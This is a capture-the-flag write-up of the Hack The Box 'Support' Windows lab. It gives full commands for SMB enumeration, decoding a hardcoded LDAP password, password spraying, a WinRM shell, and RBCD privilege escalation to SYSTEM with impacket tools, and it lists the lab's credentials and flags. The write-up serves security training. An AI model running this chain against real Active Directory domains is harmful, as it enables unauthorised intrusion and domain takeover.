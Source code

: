 
---

````markdown
# 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
````

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.support.htb` computer object.

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---